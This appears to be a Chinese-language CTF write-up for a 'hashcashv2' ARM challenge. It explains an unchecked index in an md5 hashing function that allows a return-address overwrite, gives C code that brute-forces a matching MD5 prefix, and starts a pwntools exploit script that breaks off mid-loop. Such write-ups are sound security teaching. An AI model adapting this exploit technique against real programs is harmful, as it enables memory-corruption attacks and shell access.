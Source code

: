 main 中負責產生 md5 的 function `hash(&v6_hash[count], input, v5);` 並不會檢查 `count` 的 value，而如果 input 可以產生包含 `0x000010c58` 的 hash value，就可以控制 `count` 來蓋 return address 做 exploit。而如果你控制 `count`，就會蓋到 stdin / stdout / stderr，因此必須在執行輸入輸出相關的 function 前 get shell，不然會 segmentation fault。

因此在第一次 `v5 = readin();` 時就先蓋掉 `count` 成 `\xff\xff\xff\xff` (-1)，而 nonce 蓋成 `md5(nonce_old + nonce_new)` 可以產生 `\x70\x0c\x01\x00` (0x00010C70) 的 value。



挑選 nonce 為 2 時的 collision:

```c
#include <stdio.h>     
#include <string.h>    
#include <openssl/md5.h>
            
int main()    
{           
    MD5_CTX init, fini;
    unsigned char data[1048] = {0};
    unsigned char digest[16] = {0};
            
    data[0] = 2; 
    for (int i = 1044; i < 1048; i++)
        data[i] = 0xff;
            
    MD5_Init(&init);   
    MD5_Update(&init, data, 1048);
            
    unsigned int final[1];
            
    for (unsigned int i = 0; i < 0xffffffff; i++) {
        final[0] = i;  
        memcpy(&fini, &init, sizeof(MD5_CTX));
            
        MD5_Update(&fini, (unsigned char *)final, 4);
        MD5_Final(digest, &fini);
            
        if (digest[0] == 0x70 && digest[1] == 0x0c && digest[2] == 0x01 && digest[3] == 0x00) {
            printf("value: %x\n", i);
            break;
        }   
    }       
}           
// 37c3bc6a
```



exploit:

```python
#!/usr/bin/python3
            
from pwn import *
            
nonce_hash = 2 
magic = p32(0x37c3bc6a)
            
while True:                                                                                                                                                                  
    r = process(["qemu-arm", "-L", "./", "hashcashv2"])
    r.recvuntil('\x1B[1mnonce:\x1B[0m ')
    nonce = int(r.recvline()[:-1].decode(), 16) 
            
    if nonce == nonce_hash:
        break
    else:
```